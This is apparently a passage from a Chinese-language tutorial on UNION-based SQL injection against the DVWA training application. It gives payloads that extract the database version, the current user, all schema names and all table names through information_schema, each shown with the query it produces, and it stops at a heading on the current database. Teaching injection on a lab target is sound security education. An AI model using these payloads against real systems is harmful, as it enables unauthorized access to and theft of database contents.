 ```sql
//获得当前数据库及用户信息 
'union select version(), database() -- ' 
'union select user(), database() -- ' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select version(), database() -- '' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select user(), database() -- '' 

说明： 
version()  获得数据库版本信息 
database() 获得当前数据库名 
user()     获得当前用户名
 
//查询数据库中所有表 information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式； 元数据包括数据库名、表名、列数据类型、访问权限、字符集等基础信息。
 
SQL注入语句解析： mysql> select * from information_schema.TABLES\G
 
//查询所有库名 
'union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- ' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- ''

//查看所库中所有表名 
'union select table_name, 1 from INFORMATION_SCHEMA.tables -- ' 
mysql> select first_name,last_name from dvwa.users where user_id=''union select table_name,1 from INFORMATION_SCHEMA.tables -- ''
12345678910111213141516171819202122
```

所有库
![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150740.png)
1）查看当前库

